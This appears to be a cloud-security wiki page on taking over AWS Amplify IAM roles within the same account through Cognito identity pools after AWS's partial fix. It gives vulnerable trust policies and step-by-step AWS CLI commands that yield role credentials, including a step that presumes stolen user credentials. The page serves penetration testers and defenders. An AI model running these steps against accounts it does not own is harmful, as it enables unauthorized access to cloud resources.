

<div class="grid cards" markdown>
-   :material-account:{ .lg .middle } __Original Research__

    ---

    <aside style="display:flex">
    <p><a href="https://securitylabs.datadoghq.com/articles/amplified-exposure-how-aws-flaws-made-amplify-iam-roles-vulnerable-to-takeover/">Amplified exposure: How AWS flaws made Amplify IAM roles vulnerable to takeover</a> by <a href="https://x.com/Frichette_n">Nick Frichette</a></p>
    <p></img></p>
    </aside>

-   :material-book:{ .lg .middle } __Additional Resources__

    ---

    [AWS Security Bulletin: CVE-2024-28056](https://aws.amazon.com/security/security-bulletins/AWS-2024-003/)
</div>

## Background

In April of 2024, Security Researchers at [Datadog](https://securitylabs.datadoghq.com/articles/amplified-exposure-how-aws-flaws-made-amplify-iam-roles-vulnerable-to-takeover/) found a vulnerability in the [AWS Amplify](https://aws.amazon.com/amplify/) service that exposed IAM roles associated with the service to takeover. In particular, under two different scenarios the Amplify service was setting the role trust policies of certain roles to improperly limit which [Cognito identity pool](https://docs.aws.amazon.com/cognito/latest/developerguide/cognito-identity.html) could assume them. As a result, anyone could create their own identity pool (or find one on the internet) and use it to assume these vulnerable roles.

In response to this, AWS made a number of changes to IAM and the [AWS Security Token Service](https://docs.aws.amazon.com/STS/latest/APIReference/welcome.html) (STS) APIs. In particular, this involved:

* Releasing a fix to the [Amplify CLI](https://github.com/aws-amplify/amplify-cli/releases/tag/v12.10.1) and Amplify Studio preventing the creation of more vulnerable roles.
* Made changes to the IAM control plane to prevent anyone from creating role trust policies vulnerable to this misconfiguration. If you try to set a vulnerable policy today it will be rejected.
* Made changes to the STS service to **block cross-account role assumption of roles that have a vulnerable trust relationship with the Amazon Cognito service**.

This final fix is interestingly specific. AWS only made changes to block **cross-account** role assumption, not **same-account** role assumption. As a result of this, we can still potentially take advantage of roles that were made vulnerable by the Amplify service. This requires an identity pool to be configured in the victim account with the [basic (classic) authflow](https://docs.aws.amazon.com/cognito/latest/developerguide/authentication-flow.html) enabled.

!!! Warning
    **To be clear, this method is more difficult and requires the existence of at least one additional misconfigured resource**, however it is worthwhile to know about if you are a Penetration Tester or Red Teamer, or you simply use Amplify in your own organization.

!!! Note
    This is not realistically something that can be "fixed". AWS was able to block cross-account role assumption because it was a sufficiently rare occurrence. By comparison, same-account role assumption using Cognito is (as of today) the only method available. If you have IAM roles in your account which are vulnerable to this exposure it is recommended to delete them, or change their trust policy in addition to relying on the fixes that AWS provided.

## Unauthenticated Example



In this scenario, there exists a vulnerable role in the account, alongside an identity pool that has the basic authflow enabled. This role's trust policy does not require authentication to assume. Here is an example of a vulnerable trust policy:

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": {
                "Federated": "cognito-identity.amazonaws.com"
            },
            "Action": "sts:AssumeRoleWithWebIdentity"
        }
    ]
}
```

!!! Note
    There is another variant of this misconfiguration where the trust policy includes a condition for `cognito-identity.amazonaws.com:amr` that is set to `unauthenticated`.

### Steps to Exploit

In order to assume a role that has this vulnerable trust policy, follow these steps:

1. Using the AWS CLI, perform the following command: `aws cognito-identity get-id --identity-pool-id <victim identity pool id>`
    * This can typically be found in the client side JavaScript of the web application using this identity pool.
2. Using the `IdentityId` from step one, perform the following command: `aws cognito-identity get-open-id-token --identity-id <identity id from step 1>`
    * This will return a JWT we can use to authenticate to the vulnerable role. You can inspect this JWT if you so choose.
3. With this JWT, perform the following command: `aws sts assume-role-with-web-identity --role-arn <vulnerable role ARN> --role-session-name <session name of your choosing> --web-identity-token <JWT from step 2>`
    * The vulnerable role ARN will need to be [brute-forced](../../enumeration/enum_iam_user_role.md), [derived from other values](../../enumeration/enumerate_principal_arn_from_unique_id.md), found in [source control](https://securitylabs.datadoghq.com/articles/amplified-exposure-how-aws-flaws-made-amplify-iam-roles-vulnerable-to-takeover/#results-finding-misconfigured-roles-in-the-wild), or a variety of other means.

By following these steps you should successfully generate IAM credentials for the vulnerable role:

```json
{
    "Credentials": {
        "AccessKeyId": "ASIA123ABC456DEF789G",
        "SecretAccessKey": "123ABC456DEF789G123ABC456DEF789GHI012JKL",
        "SessionToken": "...snip...",
        "Expiration": "2024-07-31T20:02:33+00:00"
    },
    "SubjectFromWebIdentityToken": "us-east-1:00000000-1111-2222-3333-444444444444",
    "AssumedRoleUser": {
        "AssumedRoleId": "AROA123ABC456DEF789G:hijacked_role",
        "Arn": "arn:aws:sts::111111111111:assumed-role/vulnerable-amplify-role/hijacked_role"
    },
    "Provider": "cognito-identity.amazonaws.com",
    "Audience": "us-east-1:aaaaaaaa-1111-bbbb-2222-cccccccccccc"
}
```

## Authenticated Example

In an authenticated scenario, the identity pool in the victim account must be configured to support authentication with a [Cognito user pool](https://docs.aws.amazon.com/cognito/latest/developerguide/cognito-user-identity-pools.html). An example vulnerable role trust policy can be found below:

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "",
            "Effect": "Allow",
            "Principal": {
                "Federated": "cognito-identity.amazonaws.com"
            },
            "Action": "sts:AssumeRoleWithWebIdentity",
            "Condition": {
                "ForAnyValue:StringLike": {
                    "cognito-identity.amazonaws.com:amr": "authenticated"
                }
            }
        }
    ]
}
```

### Steps to Exploit

In order to assume a role that has this vulnerable trust policy, follow these steps:

1. First, find credentials for a user account in the pool. If you cannot steal or create credentials you cannot continue.
2. Authenticate to the user pool using [cognito-idp:InitiateAuth](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/cognito-idp/initiate-auth.html). The specific command you will need to use will differ depending on the type of authentication in place. Please refer to the documentation for more information. Here we will demonstrate using `USER_PASSWORD_AUTH`.
    * Run the following command: `aws cognito-idp initiate-auth --auth-flow USER_PASSWORD_AUTH --client-id <client id of the victim user pool> --auth-parameters USERNAME=<username>,PASSWORD=<password>`
    * This will return an `IdToken` that will be used in the next step.
    * Note: The `AccessToken` is **NOT** the same as the `IdToken`. 
3. Run the following command: `aws cognito-identity get-id --identity-pool-id <victim identity pool id> --logins '{"cognito-idp.<region>.amazonaws.com/<victim user pool id>":"<IdToken from step 2>"}'`
    * This will return an `IdentityId` that will be used in the next step.
4. Run the following command: `aws cognito-identity get-open-id-token --identity-id <IdToken from step 3> --logins '{"cognito-idp.us-east-1.amazonaws.com/<victim user pool id>":"<IdToken from step 2>"}'`
    * Note: You **MUST** include the `logins` parameter, it is not optional.
    * This will return a JWT we will use in the next step.
5. With this JWT, perform the following command: `aws sts assume-role-with-web-identity --role-arn <vulnerable role ARN> --role-session-name <session name of your choosing> --web-identity-token <JWT from step 4>`

By following these steps you should successfully generate IAM credentials for the vulnerable role.
